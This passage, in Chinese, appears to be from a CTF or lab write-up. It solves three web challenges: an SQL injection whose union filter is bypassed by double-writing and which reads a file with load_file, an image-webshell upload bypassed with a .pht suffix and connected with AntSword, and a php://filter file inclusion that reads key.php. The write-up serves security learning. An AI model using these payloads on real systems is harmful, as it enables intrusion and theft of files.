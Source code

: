 发现union被过滤，双写绕过；并修改访问不存在页面

![image-20241124215855603](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124215855603.png)



在任意注入点读文件

`http://11.1.10.13:34041/vulnerabilities/fu1.php?id=-1') /**/ununionion/**/ select/**/ 1,load_file('/tmp/360/key'),3,4%23`

![image-20241124220400355](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124220400355.png)

### 34042 文件上传

![image-20241124220503744](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124220503744.png)

测试上传逻辑，上传到了目录/vulnerabilities/Desert.jpg![image-20241124220707115](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124220707115.png)

上传图片马对比不同

![image-20241124221121167](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124221121167.png)

![](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124222102529.png)

内容不同，但是上传成功，说明对图片内容没有校验。

发送重放器进行后缀修改上传，发现.php后缀上传失败，

![image-20241124222636787](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124222636787.png)

修改为`.pht`上传成功

蚁剑连接 http://11.1.10.13:34042/vulnerabilities/picshell.pht，得到根目录key.php

![image-20241124223700047](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124223700047.png)

### *34043 文件包含（读源码）

![image-20241124223823044](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124223823044.png)

`file=`可以直接包含，此时目录在/vulnerabilities/fu1.php同级目录下，需要一次../跳转到根目录

![image-20241124224601675](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124224601675.png)

查看源代码，发现key内容并没有在源代码中进行输出展示，那就可能存在在注释里

![image-20241124224932701](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124224932701.png)

采用读源码的方式进行key.php读取

```
http://11.1.10.13:34043/vulnerabilities/fu1.php?file=php://filter/read=convert.base64-encode/resource=../key.php
```
